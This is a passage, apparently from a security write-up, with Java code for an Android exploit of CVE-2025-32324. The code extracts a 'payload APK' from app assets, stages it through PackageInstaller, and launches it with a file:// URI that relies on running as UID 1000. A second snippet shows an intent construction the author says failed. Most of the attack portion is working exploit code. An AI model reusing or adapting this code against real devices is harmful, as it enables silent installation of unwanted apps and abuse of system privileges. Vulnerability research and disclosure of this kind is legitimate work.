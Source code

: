 ```java
    while ((output = reader.readLine()) != null) {
        Log.d(TAG, output);  // see what happens
    }
}

public static void autoInstallFromAsset(Context context, String asset) throws IOException {
    // step 1: extract our payload APK from app assets
    File apkFile = new File(context.getCacheDir(), asset);
    Android.copyAsset(context, asset, apkFile);
    
    // step 2: set up the PackageInstaller session
    int sessionId = AndroidH.writeApkToPackageInstaller(context, apkFile);
    
    // step 3: copy to Downloads so PackageInstaller can access it
    // (this creates a duplicate but it's necessary for the file URI)
    Android.copyFileToDownload(context, apkFile, apkFile.getName(),
            "application/vnd.android.package-archive");
    
    // step 4: launch the exploit!
    // we use file:// URI because when executed as UID 1000,
    // FileUriExposedException restrictions don't apply to us
    File apkFileInDownload = new File(Environment
            .getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS), apkFile.getName());
    exploitCVE_2025_32324(sessionId, apkFileInDownload);
}
```

Unfortunately, this approach hit a roadblock. The `InstallInstalling` activity expects an `ApplicationInfo` object as a parameter, which cannot be serialized and passed through the command line interface:

```java
public static Intent createInstallingIntent(Context context, int sessionId, File apkFile) {
    // this is how we WOULD construct the Intent if we had proper API access
    Intent installingIntent = new Intent();
    installingIntent.setClassName(Constants.Package.PACKAGE_INSTALLER,
            Constants.Package.PACKAGE_INSTALLER + ".InstallInstalling");
    installingIntent.putExtra("EXTRA_STAGED_SESSION_ID", sessionId);
    installingIntent.setData(Uri.fromFile(apkFile));
    
    // extract package info from the APK file
    PackageInfo packageInfo = context.getPackageManager()
            .getPackageArchiveInfo(apkFile.getAbsolutePath(), PackageManager.GET_PERMISSIONS);
    if (packageInfo == null) {
        Log.e(TAG, "getPackageArchiveInfo returns null, failed to auto install.");
        return null;
    }
    
    installingIntent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    
    // hERE'S THE PROBLEM: this complex object can't be serialized via command line!
    // the 'am' command has no way to pass this ApplicationInfo structure
    installingIntent.putExtra("com.android.packageinstaller.applicationInfo",
            packageInfo.applicationInfo);
    return installingIntent;
}
```
